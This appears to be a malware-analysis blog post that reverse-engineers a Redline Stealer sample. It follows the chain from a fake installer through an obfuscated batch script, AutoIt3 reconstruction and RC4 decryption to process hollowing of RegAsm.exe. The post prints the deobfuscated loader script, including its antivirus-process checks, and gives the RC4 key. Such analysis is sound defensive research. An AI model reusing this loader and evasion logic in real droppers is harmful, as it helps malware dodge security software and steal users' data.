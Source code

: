 ## Redline Stealer Infection Chain

Came across a sample from Malware Bazaar.

SHA256: 292a43281a8146f248fb71d92e5e32597c587fe003ac3a2f3ac8227331062120

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/be015d35-f30c-46f6-bc13-a0d0e9bd6a8b)

Detect It Easy recognized the exe file as an Installer, also there were some mentions of Autoit on VirusTotal.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f3e700bb-fad6-4640-a2a3-13f4a973e34c)

There’s a bunch of garbled strings and it is also packed, typical for installers. IAT and API string references seem normal.

I read up on [eSentire’s Case Study](https://www.esentire.com/blog/esentire-threat-intelligence-malware-analysis-redline-stealer), and the initial loader for Redline are known to take form of fake installers like TeamViewer, AnyDesk, etc. A similar variant’s infection chain looks like the following, so I tried to base my analysis around this:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a9c6f5b0-f192-4959-ab4b-562aea0c1849)

In IDA, the main functionality of the program lies in `sub_4015A0`, which handles file creation, deletion, setting up uninstallers, inserting registry keys, creating directories, etc. There is an interesting `ShellExecuteW` API call with dynamically resolved strings, and when looking through Tiny Tracer logs, there was one call to this exact offset.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/8e0fc32a-a10a-481c-a513-d726df2fa6ac)

Tiny Tracer output seems to halt at `ShellExecuteW` too:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cefd1e56-adae-4cd5-b9aa-fd9cf036248e)

I couldn’t find any other process related APIs being used, so decided to see what is passed into the function. It looks like it’s copying a file `Wrist` into `Wrist.cmd` in the user’s Temp directory and executing it.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a8a71893-963f-46d9-b93d-2be2398fe8db)

`Wrist.cmd` is an obfuscated batch script.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/78fb7904-9449-4408-bb74-13801ae5b03b)

After deobfuscating, we get:

```powershell
Set oobjxQdyOhgEZ=Promptly.pif
Set MXpzMKVMvPYNjICbYkFdgBg=  
tasklist   | findstr /I "wrsa.exe opssvc.exe"  1>NUL  & if not errorlevel 1 ping -n 196 127.0.0.1
Set /a Attend=802403
tasklist   | findstr /I "avastui.exe avgui.exe nswscsvc.exe sophoshealth.exe"   & if not errorlevel 1 Set oobjxQdyOhgEZ=AutoIt3.exe   & Set MXpzMKVMvPYNjICbYkFdgBg=.a3x
cmd /c md %Attend%
findstr /V "LyingBaghdadProgrammersAtom" Fisher  1>%Attend%\%oobjxQdyOhgEZ%
copy /b %Attend%\%oobjxQdyOhgEZ% + Collected + Thomas + Mandate + Formed + Notify + Fusion + Hs + Joke + Uni + Painful + Harmful + Sullivan + Exhibition + Monster + Dated + Senegal + Maritime + Token + Lovely + Essentially + Verde + Fork + Mumbai + Horse %Attend%\%oobjxQdyOhgEZ%
cmd /c copy /b Drew + Folder + %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
start /I %Attend%\%oobjxQdyOhgEZ% %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
timeout 5
```

This checks for processes `wrsa.exe` and `opssvc.exe`, if found, ping the localhost 196 times. It also checks for antivirus services on the system `avastui.exe, avgui.exe, nswscsvc.exe sophoshealth.exe`, if found, `oobjxQdyOhgEZ` is set to `AutoIt3.exe` instead of `Promptly.pif`. It creates a directory named `802403`, and in there, constructs a file Promptly.pif or AutoIt3.exe using contents from different files i.e. Collected, Thomas, Mandate, …, and attempt to run it, passing in the file `802403\U` as an argument. 

During the execution of the initial installer, we can see that it drops the fragmented AutoIt3.exe files into the Temp directory. Here’s one of the fragments being created, seen in Tiny Tracer:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/6e096cc9-845d-45d8-9c1b-6243b8e52005)

Anyways, this seems like a legitimate AutoIt3 interpreter based on VirusTotal reports. However, the payload in `802403\U` looks encrypted. After some research, the last stage typically involves some sort of injection technique and after some tinkering and setting breakpoints on `CreateProcess`, `OpenProcess`and `NtResumeThread`, etc. what happens is the AutoIt3 interpreter decrypts the payload in memory and does process hollowing on `RegAsm.exe`.  And its parent process is `explorer.exe`, weird. I suspended the process quickly after the payload is injected and used pe-sieve to dump out suspicious memory regions. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cd0395ac-84a9-494a-8efb-543cde124c26)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ca08fb7d-b7bc-490e-b79a-dee6630ec7cc)

The memory region at `0xdb0000` seems promising. 

After unmapping it in PE-bear, it looks like a .NET file, so opening it up in dnSpy, we are greeted with Redline Stealer!

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/9805e5d4-3ac7-4cde-b8a3-5bf7591a0d9f)

But how did the decryption happen of the payload happen? Going back to executing `Promptly.pif` (or AutoIt3.exe), there was a `VirtualAlloc` call and a decryption routine shellcode written to that memory at `0x112000`, so I enabled a memory breakpoint on that address to catch the execution of that stub.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/79705fed-7511-4cbf-b9ac-6c6670464bd8)

Dumping the shellcode and opening it in IDA, we can see 2 functionalities related to RC4, the initialization stage in `sub_2` and the XOR stage in `sub_93`. (learned this from Zero2Automated lol)

`sub_2`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ce203bc6-7a4f-4cfa-b09e-4bfb919241ca)

`sub_93`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f6125b26-114e-4651-98b1-f3c1c8fa1d4a)

Looking back at the arguments being passed into `sub_2`, the RC4 key is `8518543726503553863083291645022577371`.

Setting another breakpoint at the end of the decryption routine, we can see the encrypted blob that was decrypted at the same address `0x4790048` (this was on a second run because I messed up the first run).

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a4a6ed0-82eb-46bc-a636-cc29b17f22db)

But this PE file looks slightly different than the one I dumped previously. But thanks to a blog post from c3rb3ru5d3d53c, turns out it’s just compressed, and will be decompressed later and injected into a process, in my case `RegAsm.exe`.  Technically, I should run API monitor and track whichever API call was used for decompression and injection techniques, but I’m kinda lazy. But here’s a [list](https://github.com/cuckoosandbox/cuckoo/wiki/Hooked-APIs-and-Categories) of generic API calls you can enable for monitoring.

Anyways this is just a quick summary on how to get to the Redline code and demoing how the infection chain works !!
